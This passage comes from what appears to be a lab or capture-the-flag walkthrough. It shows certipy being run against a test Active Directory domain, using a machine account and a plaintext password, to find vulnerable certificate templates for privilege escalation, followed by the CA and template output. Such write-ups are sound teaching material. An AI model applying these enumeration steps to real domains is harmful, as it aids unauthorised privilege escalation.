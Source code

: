 ```
        ManageCa                        : RETRO.VL\Administrators
                                          RETRO.VL\Domain Admins
                                          RETRO.VL\Enterprise Admins
        Enroll                          : RETRO.VL\Authenticated Users
```


We can see that the `retro.vl` domain indeed uses Active Directory Certificate Services and we may proceed with enumeration of the certificate templates.

### Looking for a vulnerable template

Let's use `certipy` again with the `-vulnerable` switch to list vulnerable certificate templates. I use `-stdout` flag as well to print the output to standart output since the default output format of `certipy` is a text file and ZIP file.

Let's tak a look if we can find some vulnerable templates that would allow us to elevate our privileges in the domain.

```
➜  retro certipy find -vulnerable -u 'BANKING$'@retro.vl -p Password123456 -dc-ip 10.10.106.112 -stdout
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'retro-DC-CA' via CSRA
[!] Got error while trying to get CA configuration for 'retro-DC-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'retro-DC-CA' via RRP
[*] Got CA configuration for 'retro-DC-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : retro-DC-CA
    DNS Name                            : DC.retro.vl
    Certificate Subject                 : CN=retro-DC-CA, DC=retro, DC=vl
    Certificate Serial Number           : 7A107F4C115097984B35539AA62E5C85
    Certificate Validity Start          : 2023-07-23 21:03:51+00:00
    Certificate Validity End            : 2028-07-23 21:13:50+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : RETRO.VL\Administrators
      Access Rights
        ManageCertificates              : RETRO.VL\Administrators
                                          RETRO.VL\Domain Admins
                                          RETRO.VL\Enterprise Admins
        ManageCa                        : RETRO.VL\Administrators
                                          RETRO.VL\Domain Admins
                                          RETRO.VL\Enterprise Admins
        Enroll                          : RETRO.VL\Authenticated Users
Certificate Templates
  0
    Template Name                       : RetroClients
    Display Name                        : Retro Clients
    Certificate Authorities             : retro-DC-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
```